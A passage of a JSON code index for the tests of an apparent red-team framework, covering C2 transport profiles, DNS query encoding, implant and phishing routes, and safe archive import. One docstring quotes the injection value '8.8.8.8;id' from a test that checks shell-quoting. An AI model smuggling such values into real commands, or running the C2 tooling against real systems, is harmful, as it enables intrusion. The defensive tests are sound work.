test_bootstrap_rejects_unknown_flag()"}, {"kind": "function", "line": 75, "name": "test_bootstrap_rejects_bad_modes", "signature": "def test_bootstrap_rejects_bad_modes()"}, {"doc": "install.sh outside a checkout must refuse and point at bootstrap.", "kind": "function", "line": 88, "name": "test_install_pipe_guard", "signature": "def test_install_pipe_guard(tmp_path)"}, {"kind": "function", "line": 105, "name": "_make_stub_repo", "signature": "def _make_stub_repo(path)"}, {"kind": "function", "line": 118, "name": "test_existing_checkout_abort_changes_nothing", "signature": "def test_existing_checkout_abort_changes_nothing(tmp_path)"}, {"kind": "function", "line": 138, "name": "test_debug_flag_traces_execution", "signature": "def test_debug_flag_traces_execution(tmp_path)"}, {"kind": "function", "line": 153, "name": "test_existing_checkout_update_reinstalls", "signature": "def test_existing_checkout_update_reinstalls(tmp_path)"}, {"kind": "function", "line": 170, "name": "test_existing_checkout_clean_backs_up_payload", "signature": "def test_existing_checkout_clean_backs_up_payload(tmp_path)"}, {"kind": "function", "line": 195, "name": "test_non_checkout_path_fails_without_tty", "signature": "def test_non_checkout_path_fails_without_tty(tmp_path)"}, {"doc": "install.sh must not pass pip options removed from modern pip.\n\n``--resolver`` was dropped by pip, which turned the pinned lock\ninstall into a guaranteed failure (silent fallback to unpinned\npackages). Caught by a real install run.", "kind": "function", "line": 208, "name": "test_install_uses_supported_pip_flags", "signature": "def test_install_uses_supported_pip_flags()"}, {"kind": "function", "line": 220, "name": "test_scripts_are_executable_and_clean", "signature": "def test_scripts_are_executable_and_clean()"}]}, {"doc": "Boy-scout contracts for critical shared surfaces.  SPEC-01 lazyown.py carries no unused imports. Dead imports accumulate because commands migrate to cli/commands while the import block stays. SPEC-02 the MCP playbook executor shell-quotes the substituted target so a value such as 8.8.8.8;id cannot break out of the step command. SPEC-03 utils.replace_placeholders matches replace_command_placeholders on single-brace templates and leaves brace-containing values literal instead of re-substituting them. SPEC-04 DEPLOY.sh carries no dangling TODO markers.", "id": "tests/test_boyscout_contracts.py", "kind": "module", "label": "test_boyscout_contracts.py", "language": "py", "sha256": "e2bb2c4504396876", "symbol_count": 15, "symbols": [{"doc": "Collect every top-level name bound by an import statement.", "kind": "function", "line": 27, "name": "_bound_import_names", "signature": "def _bound_import_names(tree)"}, {"doc": "SPEC-01: every name bound by an import in lazyown.py is referenced.", "kind": "function", "line": 42, "name": "test_lazyown_has_no_unused_imports", "signature": "def test_lazyown_has_no_unused_imports()"}, {"doc": "Import skills.lazyown_mcp with SDK stubs when the pinned SDK is stale.", "kind": "function", "line": 52, "name": "_load_mcp_module", "signature": "def _load_mcp_module()"}, {"doc": "SPEC-02: substituted target cannot break out of the step command.", "kind": "function", "line": 110, "name": "test_playbook_target_is_shell_quoted", "signature": "def test_playbook_target_is_shell_quoted()"}, {"doc": "SPEC-03: legacy helper agrees with the canonical engine on sane input.", "kind": "function", "line": 119, "name": "test_replace_placeholders_matches_single_pass_engine", "signature": "def test_replace_placeholders_matches_single_pass_engine()"}, {"doc": "SPEC-03: a value that looks like a placeholder is not re-substituted.", "kind": "function", "line": 133, "name": "test_replace_placeholders_keeps_brace_values_literal", "signature": "def test_replace_placeholders_keeps_brace_values_literal()"}, {"doc": "SPEC-04: release script carries no dangling work markers.", "kind": "function", "line": 141, "name": "test_deploy_has_no_todo_markers", "signature": "def test_deploy_has_no_todo_markers()"}, {"doc": "Minimal Tool stand-in.", "kind": "class", "line": 66, "name": "Tool", "signature": "class Tool"}, {"doc": "Minimal TextContent stand-in.", "kind": "class", "line": 73, "name": "TextContent", "signature": "class TextContent"}, {"doc": "Minimal Server stand-in.", "kind": "class", "line": 83, "name": "Server", "signature": "class Server"}, {"doc": "Store every keyword as an attribute.", "kind": "method", "line": 69, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Store every keyword as an attribute.", "kind": "method", "line": 76, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Accept and ignore constructor arguments.", "kind": "method", "line": 86, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Return an identity decorator.", "kind": "method", "line": 89, "name": "list_tools", "signature": "def list_tools(self)"}, {"doc": "Return an identity decorator.", "kind": "method", "line": 93, "name": "call_tool", "signature": "def call_tool(self)"}]}, {"doc": "tests/test_bridge_catalog_filtered.py  Tests for ``BridgeDispatcher.catalog_summary_filtered`` and the ``phase``/``os_hint`` parameters now accepted by ``_t_bridge_catalog``.  Goal: prove that the filtered summary returns the same data shape as ``catalog_summary`` while excluding entries whose phase or target OS does not match. The agent prompt path (``_t_bridge_catalog``) is also exercised so the LLM-facing string honours the filter when arguments are supplied and stays backward-compatible when they are omitted.", "id": "tests/test_bridge_catalog_filtered.py", "kind": "module", "label": "test_bridge_catalog_filtered.py", "language": "py", "sha256": "eaff31e08a2a746f", "symbol_count": 20, "symbols": [{"kind": "function", "line": 26, "name": "dispatcher", "signature": "def dispatcher()"}, {"kind": "class", "line": 32, "name": "TestCatalogSummaryFiltered", "signature": "class TestCatalogSummaryFiltered"}, {"kind": "class", "line": 111, "name": "TestBridgeCatalogToolFunction", "signature": "class TestBridgeCatalogToolFunction"}, {"kind": "method", "line": 33, "name": "test_no_args_matches_unfiltered_summary", "signature": "def test_no_args_matches_unfiltered_summary(self, dispatcher)"}, {"kind": "method", "line": 38, "name": "test_phase_arg_restricts_to_one_phase", "signature": "def test_phase_arg_restricts_to_one_phase(self, dispatcher)"}, {"kind": "method", "line": 43, "name": "test_phase_arg_accepts_world_model_alias", "signature": "def test_phase_arg_accepts_world_model_alias(self, dispatcher)"}, {"kind": "method", "line": 48, "name": "_entries_for", "signature": "def _entries_for(self, dispatcher, phase, command_name)"}, {"kind": "method", "line": 51, "name": "test_os_hint_linux_excludes_windows_only_entries", "signature": "def test_os_hint_linux_excludes_windows_only_entries(self, dispatcher)"}, {"kind": "method", "line": 61, "name": "test_os_hint_windows_excludes_linux_only_entries", "signature": "def test_os_hint_windows_excludes_linux_only_entries(self, dispatcher)"}, {"kind": "method", "line": 71, "name": "test_os_filter_shrinks_or_preserves_each_phase", "signature": "def test_os_filter_shrinks_or_preserves_each_phase(self, dispatcher)"}, {"kind": "method", "line": 81, "name": "test_phase_plus_os_combines_both_filters", "signature": "def test_phase_plus_os_combines_both_filters(self, dispatcher)"}, {"kind": "method", "line": 89, "name": "test_empty_phase_keeps_all_phases", "signature": "def test_empty_phase_keeps_all_phases(self, dispatcher)"}, {"kind": "method", "line": 94, "name": "test_phase_drops_smaller_than_unfiltered_total", "signature": "def test_phase_drops_smaller_than_unfiltered_total(self, dispatcher)"}, {"kind": "method", "line": 100, "name": "test_os_hint_any_is_passthrough", "signature": "def test_os_hint_any_is_passthrough(self, dispatcher)"}, {"kind": "method", "line": 105, "name": "test_os_hint_uppercase_normalized", "signature": "def test_os_hint_uppercase_normalized(self, dispatcher)"}, {"kind": "method", "line": 112, "name": "test_no_args_returns_full_catalog_header", "signature": "def test_no_args_returns_full_catalog_header(self)"}, {"kind": "method", "line": 120, "name": "test_phase_arg_appears_in_header", "signature": "def test_phase_arg_appears_in_header(self)"}, {"kind": "method", "line": 127, "name": "test_os_hint_only_appears_in_header", "signature": "def test_os_hint_only_appears_in_header(self)"}, {"kind": "method", "line": 134, "name": "test_unknown_phase_returns_friendly_no_match", "signature": "def test_unknown_phase_returns_friendly_no_match(self)"}, {"kind": "method", "line": 140, "name": "test_registry_exposes_optional_phase_and_os", "signature": "def test_registry_exposes_optional_phase_and_os(self)"}]}, {"doc": "Tests for modules/c2_profile_engine.py — TlsProfile, DnsProfile, SmbProfile, WebSocketProfile, ProfileRotator, ProfileValidator, ProfileEngine.  Covers: - Dataclass construction and serialization round-trips - TLS JA3 hash computation and cipher suite resolution - DNS query subdomain building with various encodings - SMB profile validation edge cases - WebSocket protocol and path validation - ProfileRotator cooldown and skip logic - ProfileValidator transport-level checks - ProfileEngine composition and rotation - ProfileEngine.from_dict and from_payload factory methods", "id": "tests/test_c2_profile_engine.py", "kind": "module", "label": "test_c2_profile_engine.py", "language": "py", "sha256": "ec629c537f8da765", "symbol_count": 63, "symbols": [{"kind": "class", "line": 34, "name": "TestTlsProfile", "signature": "class TestTlsProfile"}, {"kind": "class", "line": 99, "name": "TestDnsProfile", "signature": "class TestDnsProfile"}, {"kind": "class", "line": 154, "name": "TestSmbProfile", "signature": "class TestSmbProfile"}, {"kind": "class", "line": 183, "name": "TestWebSocketProfile", "signature": "class TestWebSocketProfile"}, {"kind": "class", "line": 214, "name": "TestProfileRotator", "signature": "class TestProfileRotator"}, {"kind": "class", "line": 291, "name": "TestProfileValidator", "signature": "class TestProfileValidator"}, {"kind": "class", "line": 397, "name": "TestProfileEngine", "signature": "class TestProfileEngine"}, {"kind": "method", "line": 35, "name": "test_default_construction", "signature": "def test_default_construction(self)"}, {"kind": "method", "line": 44, "name": "test_get_cipher_suites_returns_library_defaults", "signature": "def test_get_cipher_suites_returns_library_defaults(self)"}, {"kind": "method", "line": 50, "name": "test_get_cipher_suites_returns_custom_when_set", "signature": "def test_get_cipher_suites_returns_custom_when_set(self)"}, {"kind": "method", "line": 55, "name": "test_get_cipher_suites_unknown_library_falls_back_to_generic", "signature": "def test_get_cipher_suites_unknown_library_falls_back_to_generic(self)"}, {"kind": "method", "line": 61, "name": "test_get_ja3_hash_produces_stable_output", "signature": "def test_get_ja3_hash_produces_stable_output(self)"}, {"kind": "method", "line": 72, "name": "test_get_ja3_hash_with_grease_produces_variable_output", "signature": "def test_get_ja3_hash_with_grease_produces_variable_output(self)"}, {"kind": "method", "line": 77, "name": "test_serialization_roundtrip", "signature": "def test_serialization_roundtrip(self)"}, {"kind": "method", "line": 90, "name": "test_from_dict_empty", "signature": "def test_from_dict_empty(self)"}, {"kind": "method", "line": 94, "name": "test_disabled_profile", "signature": "def test_disabled_profile(self)"}, {"kind": "method", "line": 100, "name": "test_default_construction", "signature": "def test_default_construction(self)"}, {"kind": "method", "line": 107, "name": "test_build_query_subdomain_base64", "signature": "def test_build_query_subdomain_base64(self)"}, {"kind": "method", "line": 113, "name": "test_build_query_subdomain_base32", "signature": "def test_build_query_subdomain_base32(self)"}, {"kind": "method", "line": 119, "name": "test_build_query_subdomain_hex", "signature": "def test_build_query_subdomain_hex(self)"}, {"kind": "method", "line": 124, "name": "test_build_query_subdomain_truncates_to_max_length", "signature": "def test_build_query_subdomain_truncates_to_max_length(self)"}, {"kind": "method", "line": 130, "name": "test_build_query_subdomain_ttl_cache_bypass_disabled", "signature": "def test_build_query_subdomain_ttl_cache_bypass_disabled(self)"}, {"kind": "method", "line": 135, "name": "test_serialization_roundtrip", "signature": "def test_serialization_roundtrip(self)"}, {"kind": "method", "line": 148, "name": "test_from_dict_empty", "signature": "def test_from_dict_empty(self)"}, {"kind": "method", "line": 155, "name": "test_default_construction", "signature": "def test_default_construction(self)"}, {"kind": "method", "line": 161, "name": "test_serialization_roundtrip", "signature": "def test_serialization_roundtrip(self)"}, {"kind": "method", "line": 178, "name": "test_from_dict_empty", "signature": "def test_from_dict_empty(self)"}, {"kind": "method", "line": 184, "name": "test_default_construction", "signature": "def test_default_construction(self)"}, {"kind": "method", "line": 191, "name": "test_serialization_roundtrip", "signature": "def test_serialization_roundtrip(self)"}, {"kind": "method", "line": 208, "name": "test_from_dict_empty", "signature": "def test_from_dict_empty(self)"}, {"kind": "method", "line": 215, "name": "test_requires_at_least_one_slot", "signature": "def test_requires_at_least_one_slot(self)"}, {"kind": "method", "line": 219, "name": "test_single_slot_always_active", "signature": "def test_single_slot_always_active(self)"}, {"kind": "method", "line": 226, "name": "test_rotation_cycles_through_slots", "signature": "def test_rotation_cycles_through_slots(self)"}, {"kind": "method", "line": 238, "name": "test_rotation_skips_cooldown_slots", "signature": "def test_rotation_skips_cooldown_slots(self)"}, {"kind": "method", "line": 252, "name": "test_rotation_resets_all_cooldowns_when_all_busy", "signature": "def test_rotation_resets_all_cooldowns_when_all_busy(self)"}, {"kind": "method", "line": 263, "name": "test_list_slots", "signature": "def test_list_slots(self)"}, {"kind": "method", "line": 274, "name": "test_is_available_fresh_slot", "signature": "def test_is_available_fresh_slot(self)"}, {"kind": "method", "line": 278, "name": "test_is_available_after_touch", "signature": "def test_is_available_after_touch(self)"}, {"kind": "method", "line": 283, "name": "test_current_slot_identity", "signature": "def test_current_slot_identity(self)"}, {"kind": "method", "line": 292, "name": "test_validate_tls_valid", "signature": "def test_validate_tls_valid(self)"}, {"kind": "method", "line": 297, "name": "test_validate_tls_disabled_skips", "signature": "def test_validate_tls_disabled_skips(self)"}, {"kind": "method", "line": 302, "name": "test_validate_tls_invalid_version", "signature": "def test_validate_tls_invalid_version(self)"}, {"kind": "method", "line": 308, "name": "test_validate_tls_missing_key_with_cert", "signature": "def test_validate_tls_missing_key_with_cert(self)"}, {"kind": "method", "line": 318, "name": "test_validate_tls_unknown_library", "signature": "def test_validate_tls_unknown_library(self)"}, {"kind": "method", "line": 327, "name": "test_validate_dns_enabled_missing_domain", "signature": "def test_validate_dns_enabled_missing_domain(self)"}, {"kind": "method", "line": 333, "name": "test_validate_dns_invalid_encoding", "signature": "def test_validate_dns_invalid_encoding(self)"}, {"kind": "method", "line": 339, "name": "test_validate_dns_disabled_skips", "signature": "def test_validate_dns_disabled_skips(self)"}, {"kind": "method", "line": 344, "name": "test_validate_dns_invalid_domain_format", "signature": "def test_validate_dns_invalid_domain_format(self)"}, {"kind": "method", "line": 350, "name": "test_validate_smb_missing_pipe_name", "signature": "def test_validate_smb_missing_pipe_name(self)"}, {"kind": "method", "line": 356, "name": "test_validate_smb_disabled_skips", "signature": "def test_validate_smb_disabled_skips(self)"}, {"kind": "method", "line": 361, "name": "test_validate_smb_username_without_domain", "signature": "def test_validate_smb_username_without_domain(self)"}, {"kind": "method", "line": 372, "name": "test_validate_websocket_invalid_protocol", "signature": "def test_validate_websocket_invalid_protocol(self)"}, {"kind": "method", "line": 378, "name": "test_validate_websocket_disabled_skips", "signature": "def test_validate_websocket_disabled_skips(self)"}, {"kind": "method", "line": 383, "name": "test_validate_all_returns_dict", "signature": "def test_validate_all_returns_dict(self)"}, {"kind": "method", "line": 398, "name": "test_default_engine_has_http_slot", "signature": "def test_default_engine_has_http_slot(self)"}, {"kind": "method", "line": 402, "name": "test_engine_with_all_transports", "signature": "def test_engine_with_all_transports(self)"}, {"kind": "method", "line": 412, "name": "test_engine_validate_returns_errors_for_invalid_dns", "signature": "def test_engine_validate_returns_errors_for_invalid_dns(self)"}, {"kind": "method", "line": 420, "name": "test_engine_rotate_through_transports", "signature": "def test_engine_rotate_through_transports(self)"}, {"kind": "method", "line": 427, "name": "test_engine_get_active_profile_dict", "signature": "def test_engine_get_active_profile_dict(self)"}, {"kind": "method", "line": 433, "name": "test_engine_get_all_profiles_dict", "signature": "def test_engine_get_all_profiles_dict(self)"}, {"kind": "method", "line": 442, "name": "test_engine_from_dict", "signature": "def test_engine_from_dict(self)"}, {"kind": "method", "line": 455, "name": "test_engine_from_payload", "signature": "def test_engine_from_payload(self)"}, {"kind": "method", "line": 465, "name": "test_engine_empty_payload_falls_back_to_defaults", "signature": "def test_engine_empty_payload_falls_back_to_defaults(self)"}]}, {"doc": "Guard the C2 route-level auth boundaries.  Every operator-facing dashboard/data endpoint must require authentication. The intentionally-public surface (beacon channel, phishing victims, login, health/metrics) must remain open so implant callbacks and campaign links keep working. This test parses ``lazyc2.py`` with the AST so a missing or accidentally-removed decorator fails deterministically.", "id": "tests/test_c2_route_auth.py", "kind": "module", "label": "test_c2_route_auth.py", "language": "py", "sha256": "8f9b39acba385ed8", "symbol_count": 5, "symbols": [{"doc": "Map every ``@app.route(path)`` to its non-route decorator stack.", "kind": "function", "line": 75, "name": "_route_decorators", "signature": "def _route_decorators()"}, {"kind": "function", "line": 106, "name": "routes", "signature": "def routes()"}, {"kind": "function", "line": 110, "name": "test_protected_endpoints_require_auth", "signature": "def test_protected_endpoints_require_auth(routes)"}, {"kind": "function", "line": 115, "name": "test_public_endpoints_stay_open", "signature": "def test_public_endpoints_stay_open(routes)"}, {"kind": "function", "line": 120, "name": "test_all_protected_endpoints_exist", "signature": "def test_all_protected_endpoints_exist(routes)"}]}, {"doc": "The C2 must not build the CLI shell at module load.  SDD contract: ``lazyc2.py`` runs as ``__main__`` and previously did ``from lazyown import LazyOwnShell`` at the top level plus an eager ``shell = LazyOwnShell()``. Module load must not touch the CLI tree: the shell is created on first use by ``_init_shell`` (same boot sequence: StringIO stdout, ``onecmd(\"p\")``, ``onecmd(\"create_session_json\")``) and every existing ``shell.*`` call site keeps working through the ``_LazyShellProxy`` stand-in.", "id": "tests/test_c2_shell_lazy.py", "kind": "module", "label": "test_c2_shell_lazy.py", "language": "py", "sha256": "b7459bd6d27cc0b3", "symbol_count": 14, "symbols": [{"kind": "function", "line": 21, "name": "_module_tree", "signature": "def _module_tree()"}, {"doc": "Exec the ``_LazyShellProxy`` class definition in isolation.\n\nReturns:\n    The class object plus the namespace it was exec'd with.", "kind": "function", "line": 25, "name": "_load_proxy_class", "signature": "def _load_proxy_class()"}, {"kind": "class", "line": 62, "name": "TestNoEagerCliBuild", "signature": "class TestNoEagerCliBuild"}, {"kind": "class", "line": 103, "name": "TestLazyShellProxy", "signature": "class TestLazyShellProxy"}, {"kind": "class", "line": 40, "name": "_FakeShell", "signature": "class _FakeShell"}, {"kind": "function", "line": 51, "name": "_init_shell", "signature": "def _init_shell()"}, {"kind": "method", "line": 63, "name": "test_no_lazyown_import_at_top_level", "signature": "def test_no_lazyown_import_at_top_level(self)"}, {"kind": "method", "line": 76, "name": "test_no_eager_shell_build", "signature": "def test_no_eager_shell_build(self)"}, {"kind": "method", "line": 88, "name": "test_lazy_accessor_with_boot_sequence", "signature": "def test_lazy_accessor_with_boot_sequence(self)"}, {"kind": "method", "line": 104, "name": "test_reads_forward_and_share_target", "signature": "def test_reads_forward_and_share_target(self)"}, {"kind": "method", "line": 111, "name": "test_writes_forward", "signature": "def test_writes_forward(self)"}, {"kind": "method", "line": 118, "name": "test_shell_output_attribute", "signature": "def test_shell_output_attribute(self)"}, {"kind": "method", "line": 41, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 45, "name": "one_cmd", "signature": "def one_cmd(self, command)"}]}, {"doc": "Campaign import trust boundaries hold against hostile packages.  SDD contract: ``core.safe_import`` owns ZipSlip-safe extraction, identifier validation and column filtering. ``cli/commands/campaign`` must route its import path through these helpers instead of raw ``extractall`` and interpolated source columns.", "id": "tests/test_campaign_import_safety.py", "kind": "module", "label": "test_campaign_import_safety.py", "language": "py", "sha256": "e034435b32c2ac84", "symbol_count": 14, "symbols": [{"kind": "function", "line": 27, "name": "_make_evil_zip", "signature": "def _make_evil_zip(path)"}, {"kind": "class", "line": 35, "name": "TestZipSlip", "signature": "class TestZipSlip"}, {"kind": "class", "line": 55, "name": "TestColumnFiltering", "signature": "class TestColumnFiltering"}, {"kind": "class", "line": 80, "name": "TestCopyTree", "signature": "class TestCopyTree"}, {"kind": "class", "line": 96, "name": "TestCampaignRoutesThroughHelpers", "signature": "class TestCampaignRoutesThroughHelpers"}, {"kind": "method", "line": 36, "name": "test_evil_members_skipped", "signature": "def test_evil_members_skipped(self, tmp_path)"}, {"kind": "method", "line": 46, "name": "test_legit_tree_extracted", "signature": "def test_legit_tree_extracted(self, tmp_path)"}, {"kind": "method", "line": 56, "name": "test_identifier_policy", "signature": "def test_identifier_policy(self)"}, {"kind": "method", "line": 62, "name": "test_unknown_and_hostile_dropped", "signature": "def test_unknown_and_hostile_dropped(self)"}, {"kind": "method", "line": 67, "name": "test_order_preserved", "signature": "def test_order_preserved(self)"}, {"kind": "method", "line": 70, "name": "test_filtered_insert_roundtrip", "signature": "def test_filtered_insert_roundtrip(self, tmp_path)"}, {"kind": "method", "line": 81, "name": "test_symlinks_not_followed", "signature": "def test_symlinks_not_followed(self, tmp_path)"}, {"kind": "method", "line": 97, "name": "test_no_raw_extractall_on_import", "signature": "def test_no_raw_extractall_on_import(self)"}, {"kind": "method", "line": 108, "name": "test_uses_safe_helpers", "signature": "def test_uses_safe_helpers(self)"}]}, {"doc": "Tests for modules/categories.py — category constants and look-up tables.", "id": "tests/test_categories.py", "kind": "module", "label": "test_categories.py", "language": "py", "sha256": "e77862bbe8beb7f9", "symbol_count": 47, "symbols": [{"kind": "class", "line": 28, "name": "TestCategoryConstants", "signature": "class TestCategoryConstants"}, {"kind": "class", "line": 78, "name": "TestShortToCategory", "signature": "class TestShortToCategory"}, {"kind": "class", "line": 128, "name": "TestCategoryToShort", "signature": "class TestCategoryToShort"}, {"kind": "class", "line": 154, "name": "TestAllCategories", "signature": "class TestAllCategories"}, {"kind": "class", "line": 172, "name": "TestBijectionInvariant", "signature": "class TestBijectionInvariant"}, {"kind": "method", "line": 29, "name": "test_all_recon_values", "signature": "def test_all_recon_values(self)"}, {"kind": "method", "line": 32, "name": "test_all_scanning_values", "signature": "def test_all_scanning_values(self)"}, {"kind": "method", "line": 35, "name": "test_all_exploitation_values", "signature": "def test_all_exploitation_values(self)"}, {"kind": "method", "line": 38, "name": "test_all_post_exploitation_values", "signature": "def test_all_post_exploitation_values(self)"}, {"kind": "method", "line": 41, "name": "test_all_persistence_values", "signature": "def test_all_persistence_values(self)"}, {"kind": "method", "line": 44, "name": "test_all_privesc_values", "signature": "def test_all_privesc_values(self)"}, {"kind": "method", "line": 47, "name": "test_all_cred_access_values", "signature": "def test_all_cred_access_values(self)"}, {"kind": "method", "line": 50, "name": "test_all_lateral_values", "signature": "def test_all_lateral_values(self)"}, {"kind": "method", "line": 53, "name": "test_all_exfil_values", "signature": "def test_all_exfil_values(self)"}, {"kind": "method", "line": 56, "name": "test_all_c2_values", "signature": "def test_all_c2_values(self)"}, {"kind": "method", "line": 59, "name": "test_all_reporting_values", "signature": "def test_all_reporting_values(self)"}, {"kind": "method", "line": 62, "name": "test_all_misc_values", "signature": "def test_all_misc_values(self)"}, {"kind": "method", "line": 65, "name": "test_all_lua_values", "signature": "def test_all_lua_values(self)"}, {"kind": "method", "line": 68, "name": "test_all_ai_values", "signature": "def test_all_ai_values(self)"}, {"kind": "method", "line": 71, "name": "test_all_cloud_values", "signature": "def test_all_cloud_values(self)"}, {"kind": "method", "line": 74, "name": "test_all_container_values", "signature": "def test_all_container_values(self)"}, {"kind": "method", "line": 79, "name": "test_recon_to_category", "signature": "def test_recon_to_category(self)"}, {"kind": "method", "line": 82, "name": "test_scanning_to_category", "signature": "def test_scanning_to_category(self)"}, {"kind": "method", "line": 85, "name": "test_enum_to_scanning_category", "signature": "def test_enum_to_scanning_category(self)"}, {"kind": "method", "line": 88, "name": "test_exploit_to_category", "signature": "def test_exploit_to_category(self)"}, {"kind": "method", "line": 91, "name": "test_post_to_category", "signature": "def test_post_to_category(self)"}, {"kind": "method", "line": 94, "name": "test_persistence_to_category", "signature": "def test_persistence_to_category(self)"}, {"kind": "method", "line": 97, "name": "test_privesc_to_category", "signature": "def test_privesc_to_category(self)"}, {"kind": "method", "line": 100, "name": "test_credential_to_category", "signature": "def test_credential_to_category(self)"}, {"kind": "method", "line": 103, "name": "test_lateral_to_category", "signature": "def test_lateral_to_category(self)"}, {"kind": "method", "line": 106, "name": "test_exfil_to_category", "signature": "def test_exfil_to_category(self)"}, {"kind": "method", "line": 109, "name": "test_c2_to_category", "signature": "def test_c2_to_category(self)"}, {"kind": "method", "line": 112, "name": "test_reporting_to_category", "signature": "def test_reporting_to_category(self)"}, {"kind": "method", "line": 115, "name": "test_misc_to_category", "signature": "def test_misc_to_category(self)"}, {"kind": "method", "line": 118, "name": "test_ai_to_category", "signature": "def test_ai_to_category(self)"}, {"kind": "method", "line": 121, "name": "test_unknown_short_name_raises_key_error", "signature": "def test_unknown_short_name_raises_key_error(self)"}, {"kind": "method", "line": 129, "name": "test_recon_reverse_lookup", "signature": "def test_recon_reverse_lookup(self)"}, {"kind": "method", "line": 132, "name": "test_exploitation_reverse_lookup", "signature": "def test_exploitation_reverse_lookup(self)"}, {"kind": "method", "line": 135, "name": "test_privesc_reverse_lookup", "signature": "def test_privesc_reverse_lookup(self)"}, {"kind": "method", "line": 138, "name": "test_c2_reverse_lookup", "signature": "def test_c2_reverse_lookup(self)"}, {"kind": "method", "line": 141, "name": "test_reverse_lookup_roundtrip", "signature": "def test_reverse_lookup_roundtrip(self)"}, {"kind": "method", "line": 150, "name": "test_reverse_lookup_less_than_or_equal_forward", "signature": "def test_reverse_lookup_less_than_or_equal_forward(self)"}, {"kind": "method", "line": 155, "name": "test_every_short_key_in_all_categories", "signature": "def test_every_short_key_in_all_categories(self)"}, {"kind": "method", "line": 161, "name": "test_all_categories_non_empty", "signature": "def test_all_categories_non_empty(self)"}, {"kind": "method", "line": 165, "name": "test_no_duplicate_all_categories", "signature": "def test_no_duplicate_all_categories(self)"}, {"kind": "method", "line": 168, "name": "test_all_categories_count", "signature": "def test_all_categories_count(self)"}, {"kind": "method", "line": 173, "name": "test_forward_and_reverse_match", "signature": "def test_forward_and_reverse_match(self)"}]}, {"doc": "Tests for cli/chain_mode.py.  The chain prompt engine is pure coordination: suggestions come from an injected resolver, input from an injected ``input_fn`` and output from an injected ``print_fn``, so every branch is exercised with fakes — no monkeypatching and no cmd2 coupling. Persistence is tested against a temporary sessions directory.", "id": "tests/test_chain_mode.py", "kind": "module", "label": "test_chain_mode.py", "language": "py", "sha256": "be0142fcaf0694c0", "symbol_count": 28, "symbols": [{"doc": "Duck-typed resolver step matching cli.command_chain.NextStep.", "kind": "class", "line": 36, "name": "_Step", "signature": "class _Step"}, {"kind": "function", "line": 45, "name": "_resolver", "signature": "def _resolver()"}, {"kind": "function", "line": 52, "name": "_engine", "signature": "def _engine(resolver)"}, {"kind": "function", "line": 85, "name": "test_suggestion_from_step_and_string", "signature": "def test_suggestion_from_step_and_string()"}, {"kind": "function", "line": 90, "name": "test_step_none_when_disabled", "signature": "def test_step_none_when_disabled()"}, {"kind": "function", "line": 95, "name": "test_step_none_when_not_interactive", "signature": "def test_step_none_when_not_interactive()"}, {"kind": "function", "line": 101, "name": "test_step_none_for_skip_verbs", "signature": "def test_step_none_for_skip_verbs(verb)"}, {"kind": "function", "line": 106, "name": "test_enter_runs_top_suggestion", "signature": "def test_enter_runs_top_suggestion()"}, {"kind": "function", "line": 116, "name": "test_number_selects_ranked_alternative", "signature": "def test_number_selects_ranked_alternative()"}, {"kind": "function", "line": 126, "name": "test_override_runs_operator_command", "signature": "def test_override_runs_operator_command()"}, {"kind": "function", "line": 136, "name": "test_skip_keeps_chain_mode_enabled", "signature": "def test_skip_keeps_chain_mode_enabled()"}, {"kind": "function", "line": 144, "name": "test_exit_words_disable_chain_mode", "signature": "def test_exit_words_disable_chain_mode(word)"}, {"kind": "function", "line": 151, "name": "test_no_suggestions_enter_skips_custom_command_runs", "signature": "def test_no_suggestions_enter_skips_custom_command_runs()"}, {"kind": "function", "line": 160, "name": "test_invalid_number_re_prompts_then_skips", "signature": "def test_invalid_number_re_prompts_then_skips()"}, {"kind": "function", "line": 168, "name": "test_invalid_number_re_prompts_then_accepts_valid_pick", "signature": "def test_invalid_number_re_prompts_then_accepts_valid_pick()"}, {"kind": "function", "line": 178, "name": "test_keyboard_interrupt_disables", "signature": "def test_keyboard_interrupt_disables(tmp_path)"}, {"kind": "function", "line": 195, "name": "test_auto_pause_after_max_steps", "signature": "def test_auto_pause_after_max_steps(tmp_path)"}, {"kind": "function", "line": 211, "name": "test_resolver_failure_degrades_to_no_suggestions", "signature": "def test_resolver_failure_degrades_to_no_suggestions()"}, {"kind": "function", "line": 221, "name": "test_store_roundtrip_and_missing", "signature": "def test_store_roundtrip_and_missing(tmp_path)"}, {"kind": "function", "line": 230, "name": "test_store_survives_malformed_file", "signature": "def test_store_survives_malformed_file(tmp_path)"}, {"kind": "function", "line": 239, "name": "test_engine_reads_persisted_state", "signature": "def test_engine_reads_persisted_state(tmp_path)"}, {"kind": "function", "line": 252, "name": "test_persist_toggle_writes_state_file", "signature": "def test_persist_toggle_writes_state_file(tmp_path)"}, {"kind": "function", "line": 267, "name": "test_prompt_exit_words_persist_off", "signature": "def test_prompt_exit_words_persist_off(tmp_path)"}, {"kind": "method", "line": 39, "name": "__init__", "signature": "def __init__(self, name, source, reason)"}, {"kind": "function", "line": 46, "name": "resolve", "signature": "def resolve(cmd, phase)"}, {"kind": "function", "line": 63, "name": "fake_input", "signature": "def fake_input(prompt)"}, {"kind": "function", "line": 179, "name": "raise_ki", "signature": "def raise_ki(prompt)"}, {"kind": "function", "line": 212, "name": "broken", "signature": "def broken(cmd, phase)"}]}, {"doc": "Contract tests for the strict CI workflow.  The repository must keep the CI workflow honest. The tests below verify that the strict workflow exists, that it does not swallow failures through ``|| true`` or ``continue-on-error: true``, and that it executes the lint, type, security, and test analyzers the contract defines. The tests were written by the tdd agent and pass through the bdd agent that ships the strict workflow file.", "id": "tests/test_ci_strict.py", "kind": "module", "label": "test_ci_strict.py", "language": "py", "sha256": "c41ba2f4f4226ccb", "symbol_count": 10, "symbols": [{"doc": "The strict workflow file is present in the repository.", "kind": "function", "line": 21, "name": "test_strict_workflow_exists", "signature": "def test_strict_workflow_exists()"}, {"doc": "The strict workflow does not contain the failure swallow flags.", "kind": "function", "line": 26, "name": "test_strict_workflow_contains_no_swallow_flags", "signature": "def test_strict_workflow_contains_no_swallow_flags()"}, {"doc": "The strict workflow runs ruff on the project.", "kind": "function", "line": 38, "name": "test_strict_workflow_runs_lint", "signature": "def test_strict_workflow_runs_lint()"}, {"doc": "The strict workflow runs mypy on the project.", "kind": "function", "line": 44, "name": "test_strict_workflow_runs_type_check", "signature": "def test_strict_workflow_runs_type_check()"}, {"doc": "The strict workflow runs bandit on the project.", "kind": "function", "line": 50, "name": 